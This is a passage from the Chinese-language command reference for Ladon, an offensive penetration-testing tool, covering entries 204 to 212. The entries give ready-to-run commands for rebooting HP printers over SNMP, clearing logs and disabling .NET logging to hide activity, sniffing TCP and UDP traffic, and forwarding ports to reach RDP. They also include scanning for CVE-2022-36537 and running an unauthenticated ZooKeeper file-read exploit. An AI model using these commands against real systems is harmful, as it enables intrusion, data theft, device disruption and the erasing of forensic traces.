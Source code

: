 ##### 204 SNMP重启HP打印机
```Bash
Ladon HPreboot 192.168.1.8
Ladon HPreboot 192.168.1.8 public
```

##### 205 清理操作日志 禁用.NET日志记录
```Bash
Ladon Clslog
```

##### 206 ARP协议探测存活主机
```Bash
Ladon 192.168.1.8 ArpInfo
Ladon 192.168.1.8/24 ArpInfo
```

##### 207 迷你FTP服务器，(支持windows/Linux自带ftp命令实现文件上传下载) 
```Bash
Ladon FtpServer 21
Ladon Ftp 2121
Ladon Ftp 2121 admin admin
```

##### 208 监听TCP发包数据 保存TXT和HEX 如SMB RDP HTTP SSH LDAP FTP等协议 
```Bash
Ladon Tcp 8080
Ladon TcpServer 80
```

##### 209 监听UDP发包数据 保存TXT和HEX 如DNS、SNMP等协议
```Bash
Ladon UdpServer 8080
Ladon Udp 161
```

##### 210 PortForward 端口转发 端口中转
```Bash
Ladon PortForward <localPort> <targetHost> <targetPort>
Example:
Ladon PortForward 338 192.168.1.8 3389
Test: mstsc 127.0.0.1 338
```


##### 211 CVE-2022-36537	Server Backup Manager 未授权RCE漏洞检测 (Zookeeper)
```Bash
Ladon https://192.168.1.8 CVE-2022-36537
Ladon 192.168.1.8/24 CVE-2022-36537
Ladon url.txt CVE-2022-36537
```

##### 212 EXP-2022-36537	Zookeeper 未授权文件读取EXP (默认/WEB-INF/web.xml)
```Bash
Ladon EXP-2022-36537 url
Ladon EXP-2022-36537 url /WEB-INF/web.xml
```
